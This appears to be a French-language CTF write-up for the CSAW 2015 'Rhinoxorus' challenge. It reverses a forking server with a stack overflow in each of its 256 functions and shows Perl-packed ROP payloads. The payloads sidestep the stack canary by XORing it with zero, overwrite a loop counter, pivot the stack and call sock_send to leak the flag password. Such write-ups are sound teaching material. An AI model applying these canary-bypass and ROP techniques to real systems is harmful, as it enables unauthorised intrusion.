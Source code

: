 ```yaml
---
title: CSAW-preq 2015 - Rhinoxorus (exploitable 500)
date: 2015-09-24
tags: ctf,exploit,csaw2015
author: Tosh
layout: post
---
```



Voici un petit write-up pour le challenge 'rhinoxorus' du CSAW ctf 2015.

### **Analyse**

```
    $ rop-tool info ./repo/ctf/2015-csaw_preq/exploit500

     ===== INFOS =====
    Filename                 ./repo/ctf/2015-csaw_preq/exploit500
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x8048750
    Loadables segments       2
    Sections                 30

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled
```

Il s'agit d'un fork-serveur écoutant sur le port 24242. Une fois connecté, le serveur lit une chaine de caractères, puis fais quelques opérations dessus. On arrive assez vite à faire planter le serveur en envoyant une chaine assez longue.


Au début du challenge, le code source n'était pas fourni (il le fût au bout d'un moment, mais j'avais déjà fini la partie reversing...), j'ai donc sorti IDA pour tenter de comprendre le fonctionnement de ce mystérieux programme.


On trouve dans le programme 256 fonctions, ayant la forme suivante (pas 100% fidèle) :

```c
    #define BUFF_SIZE(X) ((0x84 - (0x32 - X)*4) & 0xFF)
    #define CHAR_TO_FUNC(c) ((c + 0x32) & 0xFF)

    #define CALL_FUNC(x,s,c) do { functions[x](s,c); } while(0)

    #define FUNC(X)                                 \
      void func_X(char *buff, int count) {          \
        char s[BUFF_SIZE(X)];                       \
        int i;                                      \
                                                    \
        if(--count == 0)                            \
          return;                                   \
                                                    \
        memset(s, BUFF_SIZE(X), BUFF_SIZE(X));      \
                                                    \
        for(i = 0; i < count; i++) {                \
          s[i] ^= buff[i];                          \
        }                                           \
                                                    \
        CALL_FUNC(CHAR_TO_FUNC(s[0], ++s, count));  \
                                                    \
      }
```

On remarque que notre chaine de caractère est traité de cette manière :

```c
    CALL_FUNC(CHAR_TO_FUNC(buffer[0], buffer, len_received);
```

On peut constater que ces fonctions sont toutes vulnérables à un stack based overflow...

Maintenant, comment exploiter tout ça, en sachant qu'il y a Stack Smashing Protector ?


### **Exploitation**

Ma cible a été la fonction func_00 (il fallait en choisir une...)

Au début de ma chaine, je mets une rop-chain exécutant sock_send(sock, password, len). Ils ont été gentils de nous fournir cette fonction, en plus du password à une adresse fixe...
Mais je pense, qu'une fois qu'on était arrivé à faire exécuter notre rop-chain, il aurait été plutôt facile de réaliser une exploitation plus poussée (leak de la libc, mmap() d'un shellcode, etc...)

```perl
    $buff .= pack("L", 0x0804a5ce); # ret
    $buff .= pack("L", 0x0804884b); # sock_send()
    $buff .= pack("L", 0x44444444); # dummy
    $buff .= pack("L", 5);          # sock
    $buff .= pack("L", 0x0805f0c0); # @password
    $buff .= pack("L", 0x100);      # len

```

Au début de ma rop-chain, je mets un 'ret' car étant donné que le premier caractère de notre chaine détermine quelle fonction est appelée, il est plus facile de trouver une instruction ret avec un byte de poids faible permettant d'appeler notre fonction func_00().

```
$ rop-tool g ./repo/ctf/2015-csaw_preq/exploit500 -d 1 -a -n | grep ret | grep "ce ->"
     0x0804a5ce -> ret ;
```

Je remplis ensuite le buffer à overflowé avec n'importe quoi...

** Comment bypasser le canary ?**

Étant donné que le buffer sur lequel nous débordons est xoré avec notre payload...Si on XOR le canary avec 0x0, notre canary ne sera pas modifié !

Ensuite, une fois la fonction func_00 appelée, nous souhaitons que l'exécution s'arrête afin d'éviter un segfault dans une autre fonction ayant un buffer plus petit. Pour se faire, on remarque qu'il est possible d'écraser la variable count, variable utilisée comme cas d'arrêt.

Si on met cette variable à 1, alors la prochaine fonction func_X appelée retournera immédiatement.

Étant donnée que dans func_00, la variable count vaut 0xd7 (taille de notre buffer - 1), il suffit de xorer cette valeur avec 0xd7 XOR 1.

En effet :

```
count = 0xd7 XOR (0xd7 XOR 1)

<=> count = (0xd7 XOR 0xd7) XOR 1

<=> count = 1

```

Ensuite, notre rop-chain (le buffer présent dans process_connection()), étant situé à ESP+0x1c octets au moment du retour de la fonction func_00, on a besoin d'écraser saved-eip par la valeur d'un gadget permettant d'incrémenter ESP de 0x1c octets.

```
$ rop-tool g ./repo/ctf/2015-csaw_preq/exploit500 -d 10 | grep "add esp"
    0x080578f5 -> add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret ;
     ...
```

Par chance, nous trouvons pile ce qu'il nous faut.

Il ne faut pas oublier de XORER cette adresse avec l'ancien saved-eip dans notre payload.

On a tout ce qu'il faut pour créer notre exploit et obtenir le flag !

```perl
    $buff .= pack("L", 0x0);                     # canary
    $buff .= pack("L", 0x44444444)x3;            # padding

    $buff .= pack("L", 0x080578f5 ^ 0x08056afa); # add esp, 0xc, pop4 ; ret
    $buff .= pack("L", 0x44444444);              # dummy
    $buff .= pack("L", 0xd7 ^ 0x1);              # count
```

L'exploit se trouve ici : [exploit](https://github.com/t00sh/ctf/blob/master/csaw_preq_2015/exploit500.pl)

Et le binaire là : [binaire](https://repo.t0x0sh.org/ctf/2015-csaw_preq/exploit500)


Challenge intéressant ; il fallait voir qu'on pouvait XORER le canary avec 0x0 et écraser la variable count afin de stopper l'exécution.

